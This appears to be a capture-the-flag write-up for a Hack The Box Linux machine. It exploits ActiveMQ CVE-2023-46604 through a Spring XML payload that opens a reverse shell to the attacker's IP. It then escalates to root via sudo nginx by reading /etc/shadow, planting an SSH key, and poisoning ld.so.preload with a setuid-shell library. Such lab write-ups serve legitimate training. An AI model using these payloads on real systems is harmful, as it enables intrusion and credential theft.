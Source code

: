 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Created by:** TheCyberGeek
- **Notable CVEs:** 
  - CVE-2023-46604 (ActiveMQ RCE)
  - CVE-2022-41347 (Zimbra-like LD_PRELOAD abuse)

---

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.243
nmap -p 22,80,1883,5672,8161,39751,61613,61614,61616 -sCV 10.10.11.243
```

- [80](HTTP): nginx, requires HTTP Basic Auth (`admin:admin`)
- 8161: Jetty webserver (ActiveMQ console)
- 61616: ActiveMQ 5.15.15 (vulnerable)
- MQTT, AMQP also running (ports 1883, 5672)

---

## 🐚 Shell as `activemq`

### 🧨 CVE-2023-46604 – ActiveMQ RCE

#### Step 1: Host malicious Spring XML

Edit `poc.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans 
       http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>bash -i &gt;&amp; /dev/tcp/10.10.14.6/9001 0&gt;&amp;1</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Host it:

```bash
python3 -m http.server
```

#### Step 2: Exploit

```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.14.6/poc.xml
```

#### Step 3: Catch Shell

```bash
nc -lnvp 9001
```

#### Upgrade Shell

```bash
script /dev/null -c bash
# [CTRL+Z]
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🧑‍💻 Shell as Root

```bash
sudo -l
# (ALL) NOPASSWD: /usr/sbin/nginx
```

---

### 🧬 Method 1: File Read via Root nginx

`nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Start nginx:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Read files:

```bash
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```

---

### ✍️ Method 2: File Write via DAV PUT

Updated `nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Start server:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Write SSH key:

```bash
curl -X PUT localhost:1338/root/.ssh/authorized_keys \
    -d 'ssh-ed25519 AAAA... user@host'
```

SSH as root:

```bash
ssh -i id_ed25519 root@10.10.11.243
```

---

### ☠️ Method 3: LD_PRELOAD Poisoning

#### 1. Write `nginx.conf` with poisoned error_log

```nginx
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1339;
        root /;
    }
}
```

```bash
sudo /usr/sbin/nginx -c /tmp/nginx.conf
curl localhost:1339/tmp/pwn.so
```

#### 2. Create malicious `.so`

```c
// pwn.c
#include <unistd.h>
#include <sys/types.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755);
   unlink("/etc/ld.so.preload");
}
```

```bash
gcc -fPIC -shared -o /tmp/pwn.so pwn.c -ldl
cp /bin/bash /tmp/rootshell
```

#### 3. Trigger Load

```bash
sudo -l
/tmp/rootshell -p
```

---

## 🏁 Flags

```bash
cat /home/activemq/user.txt
cat /root/root.txt
```